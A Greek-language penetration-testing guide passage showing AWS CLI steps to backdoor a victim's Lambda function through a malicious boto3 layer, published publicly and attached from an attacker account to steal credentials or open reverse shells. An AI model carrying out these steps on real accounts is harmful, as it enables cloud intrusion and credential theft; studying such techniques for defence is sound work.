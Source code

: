 1. /var/task
2. /opt/python/lib/python3.7/site-packages
3. /opt/python
4. /var/runtime
5. /var/lang/lib/python37.zip
6. /var/lang/lib/python3.7
7. /var/lang/lib/python3.7/lib-dynload
8. /var/lang/lib/python3.7/site-packages
9. /opt/python/lib/python3.7/site-packages
10. /opt/python

Για παράδειγμα, η βιβλιοθήκη boto3 φορτώνεται από το `/var/runtime/boto3` (4η θέση).

#### Εκμετάλλευση

Είναι δυνατόν να καταχραστείτε την άδεια `lambda:UpdateFunctionConfiguration` για **προσθήκη νέου επιπέδου** σε μια λειτουργία lambda. Για να εκτελέσετε αυθαίρετο κώδικα, αυτό το επίπεδο πρέπει να περιέχει κάποια **βιβλιοθήκη που η λειτουργία lambda θα εισάγει.** Αν μπορείτε να διαβάσετε τον κώδικα της λειτουργίας lambda, μπορείτε να βρείτε αυτό εύκολα, επίσης σημειώστε ότι είναι πιθανό ότι η λειτουργία lambda **χρησιμοποιεί ήδη ένα επίπεδο** και μπορείτε να **κατεβάσετε** το επίπεδο και να **προσθέσετε τον κώδικά σας** εκεί.

Για παράδειγμα, ας υποθέσουμε ότι η λειτουργία lambda χρησιμοποιεί τη βιβλιοθήκη boto3, αυτό θα δημιουργήσει ένα τοπικό επίπεδο με την τελευταία έκδοση της βιβλιοθήκης:
```
pip3 install -t ./lambda_layer boto3
```
Μπορείτε να ανοίξετε το `./lambda_layer/boto3/__init__.py` και **να προσθέσετε την πίσω πόρτα στον κώδικα** (ένα συνάρτηση για εξυφάντωση διαπιστευτήριων ή για λήψη αντίστροφης κέλυφους για παράδειγμα).

Στη συνέχεια, συμπιέστε τον φάκελο `./lambda_layer` και **ανεβάστε το νέο λάμδα layer** στον δικό σας λογαριασμό (ή στον λογαριασμό του θύματος, αλλά ενδέχεται να μην έχετε δικαιώματα γι' αυτό).\
Σημειώστε ότι πρέπει να δημιουργήσετε έναν φάκελο python και να τοποθετήσετε τις βιβλιοθήκες εκεί για να αντικαταστήσετε το /opt/python/boto3. Επίσης, το layer πρέπει να είναι **συμβατό με την έκδοση της Python** που χρησιμοποιείται από το λάμδα και αν το ανεβάσετε στον δικό σας λογαριασμό, πρέπει να είναι στην **ίδια περιοχή:**
```bash
aws lambda publish-layer-version --layer-name "boto3" --zip-file file://backdoor.zip --compatible-architectures "x86_64" "arm64" --compatible-runtimes "python3.9" "python3.8" "python3.7" "python3.6"
```
{% endcode %}

Τώρα, κάντε το επιφορτισμένο lambda layer **προσβάσιμο από οποιοδήποτε λογαριασμό**:
```bash
aws lambda add-layer-version-permission --layer-name boto3 \
--version-number 1 --statement-id public \
--action lambda:GetLayerVersion --principal *
```
Και επισυνάψτε το λάμδα επίπεδο στη λειτουργία λάμδα του θύματος:
```bash
aws lambda update-function-configuration \
--function-name <func-name> \
--layers arn:aws:lambda:<region>:<attacker-account-id>:layer:boto3:1 \
--timeout 300 #5min for rev shells
```
Το επόμενο βήμα θα είναι είτε να **εκτελέσουμε τη λειτουργία** μόνοι μας αν μπορούμε ή να περιμένουμε μέχρι να **εκτελεστεί** με κανονικά μέσα - το οποίο είναι ο πιο ασφαλής τρόπος.
